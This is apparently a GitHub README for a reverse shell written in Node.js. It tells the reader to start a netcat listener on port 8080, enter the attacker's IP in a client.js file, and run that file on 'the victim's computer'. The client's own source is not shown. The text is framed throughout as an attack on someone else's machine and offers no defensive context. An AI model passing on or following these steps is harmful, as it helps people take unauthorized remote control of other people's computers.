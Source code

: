 <hr>

# Reverse Shell

### Reverse Shell made in Node.js, to use open a port and listen to it. You can do this easily with netcat.

```
nc -l -p 8080
```

### Now put your IP in the IP variable inside the client.js file

```js
var IP = "YOU IP"
```

### Now run the client.js file on the victim's computer, make sure she has the node and lib child_process installed

<p align="center">
    <img style="margin: 150px" src="https://github.com/JoPowerTech/ReverseShell/blob/main/screenshot.png" alt="print" height="150px"/>
</p>
<hr>
